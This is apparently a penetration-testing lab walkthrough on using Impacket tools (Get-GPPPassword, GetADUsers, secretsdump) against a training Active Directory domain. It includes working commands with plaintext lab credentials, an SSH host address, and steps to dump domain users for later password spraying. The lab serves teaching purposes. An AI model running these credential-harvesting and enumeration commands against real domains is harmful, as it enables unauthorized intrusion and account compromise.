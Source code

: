 This lab provides an introduction to the use of the Impacket Python classes provided by SecureAuthCorp. This toolkit is among a pentester's favorites. Some of the tools reviewed in this lab are listed below  
* Get-GPPPassword  
* GetUserSPNs  
* Secretsdump.py  
* GetADUsers.py  
  
The domain passwords we discovered in user attributes will be useful for these labs. As recommended during an earlier lab, you will need to reference previously compromised accounts to use some of the tools in this lab. For example, SecretsDump, GetGPPPassword, GetUserSPNs rely on a domain user account for usage.
# Objectives
This lab provides an opportunity to interact with one of the most important toolkits used by security analysts, penetration testers, and hackers alike.
# Methods
* Active impacket's Python environment  
* Review tools in /examples/  
* Run Get-GPPPassword.py  
* Run Get-UserSPNs.py  
* Run (cheat) Secretsdump.py  
* Run Get-ADUsers.py

# System to Execute On
Operate this lab on Linux System Nux01

```
ssh doadmin@20.232.164.198
```
# Activate Python Dependency Environment

First we will prepare a Python Dependency environment to execute the Impacket tools within.

Run these commands to prepare the environment and list the tools of Impacket.

```bash
deactivate
sudo -s
cd /opt/impacket
cd examples
ls #AllTheTools
```

With setup file
```bash
sudo python3 ./setup.py install
```
# Attack: GetGPPasswords.py
Our first investigation is going to search the domain for group policy preference passwords. You might laugh here and say "yeah, that is not a thing any longer. You just won't find it." This showed up in a report written for a customer in the second half of December, 2021. The recovered password was used for domain escalation. It. Still. Happens.

Your target domain controller IP address is: `192.168.2.4`

Run the following command to see the Get-GPPPasswords.py quick help file.

```bash
Get-GPPPassword.py
```

![](IMG-20231206014733529.png)

Remember the earlier mentions of credential maintenance? You need to find the user accounts in your BadBlood deployment that were compromised, both username and password.

**This lab requires strict adherence to the use of single quotes: '**

Determine which user account you plan to use with these tools. Both Get-* tools only require minimal domain privilege. SecretsDump requires higher privileges for the account due to the nature of remote registry access and making requests for the contents of LSA.

To clarify - Get-GPPPassword reviews the contents of the domain's SYSVOL share, which under most circumstances is readable by the entire "Domain Users" group.

Lets excute Get-GPPPasswords with an account credential observed earlier.

```bash
Get-GPPPassword.py 'doazlab.com'/'ella_mejia':'Yzafqau7r3EQdrdw!#Eiunp'@'192.168.2.4'
```

Sadly, the results indicate that there were no group policy preference passwords available on this domain. That's ok, it was expected.

![](IMG-20231206015130366.png)

If you do not have credentials to use, feel free to use your doazlab\doadmin:DOLabAdmin1! account. That command is copied below if you need it.

```bash
Get-GPPPassword.py 'doazlab.com'/'doadmin':'DOLabAdmin1!'@'192.168.2.4'
```

# Attack: GetADUsers.py
This Python class was written to enumerate AD users as either individuals or en masse. We are going to use it here to dump a list of users out of the Active Directory environment and later as the user list for password spraying.

The following command is used to dump a list of to both the console and to create a file (tee) in the /opt/ directory called adusers.txt.
- TODO
```bash
sudo -s
cd /opt/impacket/
source imp-env/bin/activate
cd examples/
python3 GetADUsers.py -all -ts doazlab.com/doadmin:'DOLabAdmin1!' -dc-ip 192.168.2.4 |tee -a /opt/adusers.txt
```

![](IMG-20231206020514314.png)

Exit the virtual Impacket environment gracefully.

```bash
deactivate
cd /opt/
ls
wc -l adusers.txt
```

![](IMG-20231206020814255.png)

